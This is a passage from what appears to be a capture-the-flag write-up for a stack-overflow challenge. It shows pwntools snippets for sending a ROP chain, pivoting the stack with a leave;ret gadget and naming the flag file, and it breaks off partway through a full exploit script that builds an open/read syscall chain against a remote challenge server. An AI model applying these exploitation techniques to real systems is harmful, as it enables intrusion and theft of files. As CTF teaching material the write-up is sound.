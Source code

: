     ```python!
    r.sendafter("Give me ROP:", b'a'*0x8 + ROP)
    ```
    * Note that, you must try and error to observe how many bytes you have to overlap by trash such as `b'a'*0x8`
5. Stack pivoting
    ```python!
    r.sendafter('Give me overflow:', b'a'*0x20 + p64(ROP_addr) + p64(leave_ret))
    ```
    * Note that, you must try and error to observe how many bytes you have to overlap by trash such as `b'a'*0x20`
6. Where is the flag file in remote server?
You can build the docker and observe the relative position → `/home/chal/flag`
    ```python!
    r.sendafter("Give me filename:", '/home/chal/flag\x00')
    ```
7. Then we got flag!!!
    ![](https://imgur.com/DdvxfZy.png)
* Whole exploit
    :::spoiler code
    ```python=
    from pwn import *

    #r = process('./chal')
    r = remote('edu-ctf.zoolab.org', 10005)
    raw_input()
    context.arch = 'amd64'

    fn = 0x4e3340
    ROP_addr = 0x4e3360

    pop_rax_ret = 0x45db87
    pop_rdi_ret = 0x4038b3
    pop_rsi_ret = 0x402428
    pop_rdx_rbx_ret = 0x493a2b
    syscall_ret = 0x4284b6
    leave_ret = 0x40190c

    ROP = flat(
       # Open filename
       pop_rax_ret, 2,
       pop_rdi_ret, fn,
       pop_rsi_ret, 0,
       syscall_ret,

       # Read the file
       pop_rax_ret, 0,
       pop_rdi_ret, 3,
       pop_rsi_ret, fn,
       pop_rdx_rbx_ret, 0x30, 0,
       syscall_ret,
